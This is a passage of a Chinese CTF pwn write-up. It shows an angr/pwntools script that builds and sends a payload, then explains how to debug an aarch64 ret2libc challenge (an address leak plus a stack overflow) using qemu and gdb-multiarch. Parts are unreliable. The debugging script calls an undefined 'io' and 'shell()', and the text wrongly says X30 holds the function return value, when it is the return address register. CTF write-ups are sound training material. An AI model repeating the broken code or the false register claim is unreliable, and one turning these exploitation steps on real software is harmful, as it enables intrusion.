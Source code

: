 ```python
    for i in range(state.globals['symbols_count']):
        s, s_type = state.globals['s_' + str(i)]
        if s_type == 'str':
            bb = state.solver.eval(s, cast_to=bytes)
            if bb.count(b'\x00') == len(bb):
                bb = b'A' * bb.count(b'\x00')
            bindata += bb
            print(bb)
        elif s_type == 'int':
            bindata += str(state.solver.eval(s, cast_to=int)).encode('ASCII') + b' '
            print(str(state.solver.eval(s, cast_to=int)).encode('ASCII') + b' ')
    print(bindata)
    gdb.attach(r,"b*0x4079D7")
    r.send(bindata)
    r.interactive()
    break
```

### ret2libc_aarch64

题目本身没有难点，一个任意地址泄露和一个无限栈溢出，但问题在于，程序是 aarch64 指令集，没学过这一套，加上需要 qemu 运行，不知道该怎么调试程序。

这里介绍一个能够通过 python 脚本交互的调试方案：

在 python 脚本里通过 `qemu-aarch64 -g 1234 ./pwn` 来启一个端口服务，此时该服务就会开始等待 gdb 连接：

```python
from pwn import *
context(os = "linux", arch = 'aarch64', log_level = 'debug')
libc = ELF('./libc.so.6')
file = './pwn'
elf = ELF(file)

p = process('qemu-aarch64 -g 1234 ./pwn', shell=True)
p.recvuntil('>\n')

io.interactive()
shell()
```

接下来另外启一个 shell：

```sh
$ gdb-multiarch ./pwn
pwndbg> b *0x4009A0
pwndbg> target remote:1234
```

然后这个 shell 中的 gdb 就会连接到 python 脚本中启动的服务上，然后其他过程正常调试即可。


另外一个点是，aarch64 平台下，函数返回值储存在 X30 寄存器中，这个寄存器在 GDB 中不会直接显示在上方的寄存器组中：

```c
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 X0   0xb
 X1   0x40009bc5c0 ◂— 0x0
 X2   0xfbad2887
 X3   0x40009bf500 ◂— 0x0
 X4   0x10
 X5   0x8080808080800000
 X6   0xfefefefefeff3d3d
 X7   0x7f7f7f7f7f7f7f7f
 X8   0x40
 X9   0x5
 X10  0xa
 X11  0xffffffffffffffff
 X12  0x400084fe48 ◂— 0x0
```